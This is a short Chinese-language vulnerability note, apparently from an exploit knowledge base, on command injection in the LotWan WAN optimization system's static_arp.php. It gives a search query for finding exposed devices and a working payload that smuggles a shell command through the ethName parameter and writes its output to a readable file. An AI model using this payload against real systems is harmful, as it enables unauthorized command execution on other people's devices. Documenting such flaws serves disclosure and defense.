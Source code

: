 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123722094.png)

存在漏洞的文件为

```php
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![img](../../../.vuepress/public/img/1635942680846-eb442f59-4229-43ad-a133-5c5587d20774.png)

再访问 `/acc/bindipmac/cmd.txt`

![img](../../../.vuepress/public/img/1635942700371-15189d95-a643-4b0d-95bb-14f6285796d2.png)

